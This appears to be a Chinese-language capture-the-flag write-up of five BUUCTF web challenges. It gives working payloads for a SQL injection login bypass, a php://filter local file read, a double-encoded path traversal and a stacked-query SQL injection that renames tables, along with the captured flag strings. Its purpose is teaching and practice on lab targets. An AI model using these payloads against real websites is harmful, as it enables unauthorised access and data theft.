


# 1.buuctf.[极客大挑战 2019]EasySQL
点击题目中的url链接 http://5bd02f5a-954f-4348-b38c-9343c5ad32b8.node5.buuoj.cn:81/

考察万能密码，用户名admin‘ or 1=1#
               密码  123456

点击登录获得flag{c1e477a2-0c3c-4977-b48e-9b03183f54f2}

# 2.buuctf.[极客大挑战 2019]Havefun
点击题目中的url链接 http://abfb11b9-4f88-4220-996f-0e7b722e70cc.node5.buuoj.cn:81/

查看网页源代码，往下拉

发现注释，如果get传出来一个cat=dog,echo输出flag

具体操作如下：

刷新页面获得flag

提交flag{a159724a-155a-4958-a88f-34a5dc1386e9}

# 3.buuctf.[ACTF2020 新生赛]Include
点击题目中的url链接 http://c8a499b1-ef8a-4a36-a903-2f223c5f55d0.node5.buuoj.cn:81/

点击tips进入新页面

ctrl+shift+i查看网页源代码,点击hackbak

php://filter/read=convert base64-encode/resource=要读取的文件

读取首页index.php文件
http://c8a499b1-ef8a-4a36-a903-2f223c5f55d0.node5.buuoj.cn:81/?file=php://filter/read=convert base64-encode/resource=index.php

发现一段编码，点击 http://www.hiencode.com/，base64解码

查看flag.php源码

 

获得新的编码，用bease64解码

提交flag{fb74c362-0e6d-40a7-9833-e573d171407f}

# 4.buuctf.[HCTF 2018]WarmUp
点击题目中的url链接 http://f11e7eb5-c2dc-4cfa-a7cc-2597f384423a.node5.buuoj.cn:81/

发现一个笑脸，查看源代码

发现注释，访问 http://f11e7eb5-c2dc-4cfa-a7cc-2597f384423a.node5.buuoj.cn:81/source.php

进行代码审查，访问hint.php，http://f11e7eb5-c2dc-4cfa-a7cc-2597f384423a.node5.buuoj.cn:81/hint.php

再次审查代码，使用url编码？进行绕过
得到新的url进行访问

http://f11e7eb5-c2dc-4cfa-a7cc-2597f384423a.node5.buuoj.cn:81/？file=source.php%253F../../../../../ffffllllaaaagggg

提交flag{c4952d80-cebe-44e1-8c0b-ab02e3634012} 

# 5.buuctf.[强网杯 2019]随便注
点击题目中的url链接 http://eca7f7b3-efce-4f85-b8b1-c71ce28e295d.node5.buuoj.cn:81/

输入：1' order by 2#
1' order by 3#

发现只有两列
构造查询语句
1' union select 1, 2#

发现被禁止了
1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#

发现当前数据库为supersqli
1';show databases;

1';show tables;
查看表

1';show columns from `1919810931114514`;

因为可以堆叠查询，这时候就想到了一个改名的方法，把words随便改成words1，然后把1919810931114514改成words，再把列名flag改成id，结合上面的1' or 1=1#爆出表所有内容就可以查flag
payload：0';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc words;#

提交flag{6fc51092-a025-40b5-9f49-6d31f4d7ce0d}